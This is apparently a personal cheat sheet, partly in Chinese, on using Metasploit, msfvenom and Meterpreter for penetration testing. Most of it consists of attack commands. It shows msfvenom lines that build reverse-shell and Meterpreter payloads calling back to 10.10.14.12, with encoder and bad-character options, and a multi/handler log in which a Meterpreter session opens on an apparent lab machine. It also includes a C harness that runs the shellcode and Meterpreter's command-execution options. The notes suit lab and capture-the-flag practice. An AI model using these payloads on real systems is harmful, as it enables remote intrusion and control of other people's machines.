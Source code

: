 # Metasploit
###### tags: `Security` `Tools`
[TOC]

# Reference
[Using exploits](https://www.offensive-security.com/metasploit-unleashed/using-exploits/)

# Msfconsole
```
msf> search snmp
msf> use exploit/.../.../...
msf> info
msf> show options
msf> set RHOST 192.168...
msf> set LHOST 192.168...
msf> set LPORT ...
msf> set PAYLOAD windows/...
msf> exploit
```
 + set global parameter
`msf> setg RHOSTS 192.168...`

 + database services
```
msf> hosts
msf> db_nmap 192.168.31.200-254 --top-ports 20
msf> services -p 443 # print all machine open 443 port
```

## modules
 * #### Auxiliary
```
msf > show auxiliary
```
 * #### Exploits
 
# MSFVenom
## cheatsheet
```
msfvenom --list payloads | grep linux | grep x64    // search payloads
msfvenom -p linux/x64/exec --list-options           // list options
// generate full interactive reverse shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=7702 -f elf -o msf.bin 
```
## overview
```
msfvenom -p windows/shell_reverse_tcp  \
LHOST=192.168.30.5                     \
LPORT=443                              \
-f c                                   \
-a x86                                 \
--platform windows                     \
-b "\x00\x0a\x0d"                      \
-e x86/shikata_ga_nai                  \
EXITFUNC=thread
```
注意這個生成的 `shellcode` 會需要用到 `stack` 自我解壓縮 ，如果 `shellcode` 放在 `stack` 中(`ESP`指向位置)，要記得在最前頭塞 `nop`

### EXITFUNC
 * thread: This method is used in most exploitation scenarios where the exploited process (e.g. IE) runs the shellcode in a sub-thread and exiting this thread results in a working application/system (clean exit)
 * process: This method should be used with **multi/handler**. This method should also be used with any exploit where a master process restarts it on exit.
 * seh: This method should be used when there is a structured exception handler (SEH) that will restart the thread or process automatically when an error occurs.
 
[shellcode note](https://hackmd.io/@WildfootW/Cybersecurity/%2F%40WildfootW%2FS1DpqYLYW)
[msfvenom command cheat sheet](https://netsec.ws/?p=331)

## Useful Payload
* `use windows/meterpreter/reverse_https`
* `use windows/meterpreter/reverse_tcp_allports`

## Payload staged/non-staged
```
msfvenom -p <payload> -f <format> LHOST= LPORT= -e <encoder> -b <bad-chars>
# -e x86\shikata_ga_nai
msfvenom –list payload
```
* staged payload `Metasploit exploit/multi/handler` `windows/shell/reverse_tcp`
* non-staged payload `nc -nvlp [port]` `windows/shell_reverse_tcp` (sent in its entirety in one go)
```
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
```

### example: using staged payload
<pre><u style="text-decoration-style:single">msf6</u> &gt; use exploit/multi/handler 
<font color="#277FFF"><b>[*]</b></font> Using configured payload generic/shell_reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set lhost 10.10.14.12
lhost =&gt; 10.10.14.12
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set lport 7702
lport =&gt; 7702
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set payload linux/x64/meterpreter/reverse_tcp 
payload =&gt; linux/x64/meterpreter/reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; run
</pre>

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=7702 -f elf -o msf.bin
// generate upload & execute
```

<pre><font color="#277FFF"><b>[*]</b></font> Started reverse TCP handler on 10.10.14.12:7702 
<font color="#277FFF"><b>[*]</b></font> Sending stage (3008420 bytes) to 10.10.10.61
<font color="#277FFF"><b>[*]</b></font> Meterpreter session 1 opened (10.10.14.12:7702 -&gt; 10.10.10.61:46986) at 2020-11-14 21:02:55 +0800

<u style="text-decoration-style:single">meterpreter</u> &gt; ls
</pre>

## test payload
format 選 `-f c`
```
#include <stdio.h>

unsigned char buf[] = ""

int main()
{
    void (*f)() = (void (*)()) buf;
    f();
    return 0;
}
```
編譯
```
gcc -m32 -z execstack
```


# Meterpreter
## Online Resources
* [METERPRETER BASIC COMMANDS](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
## Commands
### execute
```
meterpreter > execute -f bash -i
-f <opt>  The executable command to run.
-i        Interact with the process after creating it.
-a <opt>  The arguments to pass to the command.
-c        Channelized I/O (required for interaction).
```